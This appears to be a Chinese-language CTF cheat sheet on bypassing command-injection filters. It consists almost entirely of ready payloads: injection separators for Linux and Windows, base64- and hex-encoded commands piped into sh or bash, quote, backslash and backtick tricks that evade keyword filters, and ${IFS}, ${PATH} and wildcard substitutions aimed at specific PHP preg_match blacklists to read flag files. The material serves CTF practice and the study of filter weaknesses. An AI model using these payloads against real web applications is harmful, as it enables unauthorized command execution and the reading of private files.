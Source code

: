 linux 中：`%0a %0d ; & | && ||`

windows 中：`%0a & && | || %1a`

注意%0a 要在地址栏输入，否则会 2 次编码

### base64 与管道符, hex, oct, printf

```
echo d2hvYW1p | base64 -d | sh ################## whoami
echo "77686F616D69" | xxd -r -p|bash ############ -- run whoami
printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67" #### oct 8进制 $cat /flag
```

### 单引号、反斜杠、反引号

```
cat f''ag.txt
ca''t flag.txt
ca\t fla\g.txt
cat `ls`   用反引号
```

### 过滤 cat

```
1=>ca\t flag.php
2=>ca''t fla''g.txt
3=>127.0.0.1&ca\t flag_5882926228560.php | base64
3.用其他cat,tac,more,less,head,tail,nl,tailf,
     win: type, more, copy file1 + file2 + file3 con >nul
```

### 命令注入绕过 RCE

[CTF-show 命令代码执行实践](https://mp.weixin.qq.com/s/UgdVarWXZLFM1CnbaeXm1g)

        过滤/ preg_match_all("/\//", $ip, $m)
            1=>${PATH:0:1}=>|cat flag_is_here${PATH:0:1}flag_28512274183473.php
            2=>先cd目录再cat=>127.0.0.1;cd flag_is_here;cat flag_28512274183473.php;
            3=>127.0.0.1;cd flag_is_here;cat `ls`;
        过滤 preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/"
            1.1=>127.0.0.1%0als
            使用通配符绕过
            1.2=>127.0.0.1%0acd${IFS}f*_is_here%0als
            1.3=>127.0.0.1%0acd${IFS}f*_is_here%0amore${IFS}f*_12646135912113.php
            2.1=>16进制=>?ip=127.0.0.1%0als${IFS}$(printf${IFS}"\x66\x6c\x61\x67\x5f\x69\x73\x5f\x68\x65\x72\x65")
            2.2=>16进制=>?ip=127.0.0.1%0aca''t${IFS}$(printf${IFS}"\x66\x6c\x61\x67\x5f\x69\x73\x5f\x68\x65\x72\x65\x2f\x66\x6c\x61\x67\x5f\x36\x33\x31\x38\x31\x35\x30\x35\x33\x33\x34\x2e\x70\x68\x70")#

        过滤 preg_match('/(f|l|a|g|\.|p|h|\/|;|\"|\'|\`|\||\[|\]|\_|=)/i',$code)), $blacklist = get_defined_functions()['internal'];
            取反绕过
